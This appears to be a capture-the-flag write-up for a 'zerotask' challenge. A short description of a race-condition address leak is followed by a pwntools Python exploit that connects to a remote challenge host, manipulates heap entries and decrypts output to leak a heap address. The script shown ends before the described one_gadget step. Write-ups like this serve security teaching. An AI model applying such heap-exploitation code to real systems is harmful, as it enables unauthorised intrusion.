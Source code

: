 ### zerotask

Race Condition to leak address
Then create fake structure to jump to one_gadget
```python
from pwn import *
context.arch = "amd64"

#r = process(["./task"])
r = remote("111.186.63.201", 10001)
from Crypto.Cipher import AES

IV = "a"*0x10

def aes_encrypt(data, key):
    cryptor = AES.new(key, AES.MODE_CBC, IV)
    return cryptor.encrypt(data)

def aes_decrypt(data, key):
    cryptor = AES.new(key, AES.MODE_CBC, IV)
    return cryptor.decrypt(data)

def add(idx,Type,key,iv,size,data):
        payload = flat("1".ljust(8,'\x00'),str(idx).ljust(8,'\x00'),
                    str(Type).ljust(8,'\x00'),key,iv,
                    str(size).ljust(8,'\x00'),data)
        global gogo
        if gogo:
            r.send(payload)
        else:
            r.sendafter("Choice:",payload)

def go(idx):
	r.sendlineafter(":","3")
	r.sendlineafter(":",str(idx))

def remove(idx):
	r.sendlineafter(":","2")
	r.sendlineafter(":",str(idx)) 


gogo = False

add(0,1,"a"*0x20,"a"*0x10,0x70,"a"*0x70)
add(1,1,"a"*0x20,"a"*0x10,0x70,"a"*0x70)
add(2,1,"a"*0x20,"a"*0x10,0x70,"a"*0x70)
remove(2)
go(0)
remove(0)
remove(1)
add(3,1,"a"*0x20,"a"*0x10,0x1,"a"*0x1)
add(4,1,"a"*0x20,"a"*0x10,0x1,"a"*0x1)
r.recvuntil("Ciphertext:")
r.recvline()
x = r.recvline()[:-1].split()
ans = ""
for xx in x:
    ans+= chr(int(xx,16))
data = aes_decrypt(ans,"a"*0x20)[:8]
heap = u64(data)
print hex(heap)

gogo = True
```